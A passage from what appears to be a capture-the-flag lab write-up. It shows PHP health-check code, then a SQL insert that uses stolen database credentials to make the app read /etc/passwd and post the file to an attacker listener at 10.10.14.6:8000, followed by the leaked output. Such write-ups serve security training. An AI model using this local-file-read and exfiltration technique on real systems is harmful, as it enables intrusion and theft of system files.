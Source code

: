 ```php
    } else {
        $json['health'] = "down";
    }

    $content = json_encode($json);

    // send
    $curl = curl_init($webhookUrl);
    curl_setopt($curl, CURLOPT_HEADER, false);
    curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
    curl_setopt($curl, CURLOPT_HTTPHEADER,
        array("Content-type: application/json"));
    curl_setopt($curl, CURLOPT_POST, true);
    curl_setopt($curl, CURLOPT_POSTFIELDS, $content);
    curl_exec($curl);
    curl_close($curl);

    return $json;

}
```

It was performing the health check by reading the monitored URL with `file_get_contents` and sending the result to the webhook URL. Since I had the database credentials I could insert anything in there, bypassing the validation from the website. And the code was using `file_get_contents` to get the monitored URL, so I could use it to read local files.

I started by trying to read `/etc/passwd`. 

```sql
mysql> Insert Into tasks Values (1,'10.10.14.6:8000', 0, '/etc/passwd', '* * * * *', NOW(), NOW());
Query OK, 1 row affected (0.00 sec)
```

It worked.

```json
{
  "webhookUrl": "10.10.14.6:8000",
  "monitoredUrl": "/etc/passwd",
  "health": "up",
  "body": "root:x:0:0:root:\/root:\/bin\/bash\ndaemon:x:1:1:daemon:\/usr\/sbin:\/usr\/sbin\/nologin\nbin:x:2:2:bin:\/bin:\/usr\/sbin\/nologin\nsys:x:3:3:sys:\/dev:\/usr\/sbin\/nologin\nsync:x:4:65534:sync:\/bin:\/bin\/sync\ngames:x:5:60:games:\/usr\/games:\/usr\/sbin\/nologin\nman:x:6:12:man:\/var\/cache\/man:\/usr\/sbin\/nologin\nlp:x:7:7:lp:\/var\/spool\/lpd:\/usr\/sbin\/nologin\nmail:x:8:8:mail:\/var\/mail:\/usr\/sbin\/nologin\nnews:x:9:9:news:\/var\/spool\/news:\/usr\/sbin\/nologin\nuucp:x:10:10:uucp:\/var\/spool\/uucp:\/usr\/sbin\/nologin\nproxy:x:13:13:proxy:\/bin:\/usr\/sbin\/nologin\nwww-data:x:33:33:www-data:\/var\/www:\/usr\/sbin\/nologin\nbackup:x:34:34:backup:\/var\/backups:\/usr\/sbin\/nologin\nlist:x:38:38:Mailing List Manager:\/var\/list:\/usr\/sbin\/nologin\nirc:x:39:39:ircd:\/var\/run\/ircd:\/usr\/sbin\/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):\/var\/lib\/gnats:\/usr\/sbin\/nologin\nnobody:x:65534:65534:nobody:\/nonexistent:\/usr\/sbin\/nologin\nsystemd-network:x:100:102:systemd Network Management,,,:\/run\/systemd\/netif:\/usr\/sbin\/nologin\nsystemd-resolve:x:101:103:systemd Resolver,,,:\/run\/systemd\/resolve:\/usr\/sbin\/nologin\nsyslog:x:102:106::\/home\/syslog:\/usr\/sbin\/nologin\nmessagebus:x:103:107::\/nonexistent:\/usr\/sbin\/nologin\n_apt:x:104:65534::\/nonexistent:\/usr\/sbin\/nologin\nlxd:x:105:65534::\/var\/lib\/lxd\/:\/bin\/false\nuuidd:x:106:110::\/run\/uuidd:\/usr\/sbin\/nologin\ndnsmasq:x:107:65534:dnsmasq,,,:\/var\/lib\/misc:\/usr\/sbin\/nologin\nlandscape:x:108:112::\/var\/lib\/landscape:\/usr\/sbin\/nologin\npollinate:x:109:1::\/var\/cache\/pollinate:\/bin\/false\nsshd:x:110:65534::\/run\/sshd:\/usr\/sbin\/nologin\nsusanne:x:1000:1000:susanne:\/home\/susanne:\/bin\/bash\ngogs:x:1001:1001::\/home\/gogs:\/bin\/bash\nmysql:x:111:114:MySQL Server,,,:\/nonexistent:\/bin\/false\n"
}
```
